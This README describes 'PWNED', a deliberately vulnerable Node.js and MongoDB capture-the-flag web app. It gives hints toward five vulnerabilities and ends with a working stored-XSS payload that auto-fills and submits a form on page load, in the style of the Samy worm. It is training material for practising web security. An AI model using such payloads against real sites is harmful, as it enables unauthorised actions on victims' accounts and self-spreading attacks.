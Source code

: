# PWNED

This is an example website that demonstrated multiple security vulnerabilities in web applications running on Node.js and MongoDB.

## Running the app

The app is published as Docker conatiner. You can run it like so:

```sh
docker run --name pwned -p 3000:3000 -d thomasheyenbrock/pwned:latest
```

Once that's done you can access the app on [http://localhost:3000](http://localhost:3000).

There is a MongoDB running inside the conatiner. Note that restarting the container will clean all contents of the database and restore the default!

## Vulnerabilities

There are multiple vulnerabilities hidden in the application. Your goal is to capture all five flags (one for each vulnerability) hidden in the application. A flag is just a string starting with `flag_`.

For the start, play around with the app a bit without even looking at the source code. Deliberately try to break stuff. Here are some hints to get you started:

- Not all users are equal. Some have more rights than others.
- There are already some users and notes in the database, and not all of them are public.
- There's No SQL injection here (pun intended), since the app uses MongoDB.
- Searching can be quite expensive.
- What's the most popular place to store secrects in Node.js applications?
- But most of all, Samy is my hero.

If you are stuck, you can of course start looking at the code to find the vulnerable spots. But note that this version of the code has none of the flags in it, to not make it trivial for you to find their values. Apart from that, the code is exactly the one that's running in the Docker container.

# Cross site scripting (XSS)

```
XSS <script async defer>document.addEventListener("DOMContentLoaded", (event) => {document.getElementsByTagName("input")[2].value="Thomas is my hero";document.getElementsByTagName("form")[1].submit()})</script>
```
